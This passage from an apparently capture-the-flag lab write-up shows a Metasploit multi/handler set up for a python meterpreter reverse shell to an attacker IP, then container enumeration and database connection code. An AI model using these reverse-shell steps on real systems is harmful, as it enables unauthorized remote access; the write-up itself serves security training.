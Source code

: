 8. Start python web server and meterpreter session to receive my reverse shell connection.

    ```bash
    python -m SimpleHTTPServer 80

    msfconsole

    use exploit/multi/handler
    set payload python/meterpreter/reverse_tcp
    set LHOST 10.10.14.13
    set LPORT 4444
    run
    ```

9. Run the script and I'm able to receive a shell on meterpreter session.

10. To my surprise, the `user.txt` flag is non-existent. I thought someone deleted the flag but nope, I am stuck in a containerized instance as `hostname` shows a string of random letters and numbers.

11. I got lost for a while trying to figure out how to break out of this instance. I noticed there is a directory at `/opt/app` that resembles the same code as the repository. Out of chance, I noticed there is a file called `models.py`. This file generates the database structure for brew and one other important table, "Users".

    ```python
    class User(db.Model):
        id = db.Column(db.Integer, primary_key=True)
        username = db.Column(db.String(45))
        password = db.Column(db.String(80))

        def __init__(self, username, password):
            self.username = username
            self.password = password
    ```

    I had the immediate idea that I should have enumerated the possible hidden databases for possible logins.

12. The other piece of information that came together while looking into database enumeration was this file called `dbtest.py`. It's a simple file that connects to the database and retrieves 1 result from brew table.

    ```python
    #!/usr/bin/env python

    import pymysql
    from craft_api import settings

    # test connection to mysql database

    connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                 user=settings.MYSQL_DATABASE_USER,
                                 password=settings.MYSQL_DATABASE_PASSWORD,
                                 db=settings.MYSQL_DATABASE_DB,
                                 cursorclass=pymysql.cursors.DictCursor)
